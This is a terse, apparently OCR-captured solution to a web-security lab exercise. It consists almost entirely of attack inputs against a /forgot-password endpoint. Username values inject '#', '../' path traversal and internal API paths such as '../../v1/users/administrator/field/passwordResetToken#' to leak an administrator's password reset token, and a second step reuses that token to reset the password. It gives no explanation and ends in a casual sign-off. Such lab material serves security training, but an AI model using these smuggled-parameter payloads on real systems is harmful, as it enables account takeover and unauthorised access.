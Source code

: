 1. at POST /forgot-password
```
username=administrator
username=administrator#
username=./administrator
username=../../../../openapi.json#

username=administrator/field/passwordResetToken#
username=../../v1/users/administrator/field/passwordResetToken#
```
2. /forgot-password?passwordResetToken=$FROM_ABOVE$
----
----
Go0dLu(K my G.